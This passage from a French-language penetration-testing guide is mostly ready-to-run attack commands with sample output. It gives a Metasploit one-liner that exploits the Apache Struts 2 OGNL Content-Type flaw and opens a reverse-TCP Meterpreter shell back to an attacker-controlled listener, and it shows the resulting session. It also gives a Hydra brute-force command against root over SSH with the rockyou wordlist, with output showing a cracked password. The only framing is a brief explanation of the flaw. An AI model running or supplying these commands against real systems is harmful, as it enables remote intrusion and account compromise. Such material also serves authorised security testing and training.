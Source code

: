 **Commande pour exploiter une vulnérabilité Apache Struts :**
```bash
msfconsole -q -x "use exploit/multi/http/struts2_content_type_ognl; set RHOSTS 192.168.1.20; set RPORT 8080; set TARGETURI /struts2-showcase/; set PAYLOAD java/meterpreter/reverse_tcp; set LHOST 192.168.1.5; set LPORT 4445; exploit"
```

**Sortie typique :**
```
[*] Started reverse TCP handler on 192.168.1.5:4445 
[*] Sending stage (58829 bytes) to 192.168.1.20
[*] Meterpreter session 1 opened (192.168.1.5:4445 -> 192.168.1.20:40125) at 2025-04-02 18:50:00 +0000

meterpreter > getuid
Server username: tomcat

meterpreter > sysinfo
Computer    : struts-app
OS          : Linux 4.15.0-72-generic (amd64)
Meterpreter : java/linux

meterpreter > shell
Process 1 created.
Channel 1 created.
whoami
tomcat
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
uname -a
Linux struts-app 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

**Analyse :** Cette commande exploite une vulnérabilité dans le framework Apache Struts 2, qui permet l'exécution de code à distance via une injection OGNL dans l'en-tête Content-Type. L'exploit a réussi, établissant une session Meterpreter avec les privilèges de l'utilisateur tomcat. Cette vulnérabilité a été utilisée dans plusieurs attaques majeures, notamment la brèche d'Equifax en 2017.

#### 3. Exploitation de services réseau

**Commande pour exploiter une vulnérabilité SSH :**
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.30 ssh -t 4
```

**Sortie typique :**
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-02 18:55:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.1.30:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:28h, 4 active
[STATUS] 42.67 tries/min, 128 tries in 00:03h, 14344271 to do in 5604:01h, 4 active
[22][ssh] host: 192.168.1.30   login: root   password: password123
[STATUS] attack finished for 192.168.1.30 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-02 19:00:23
```
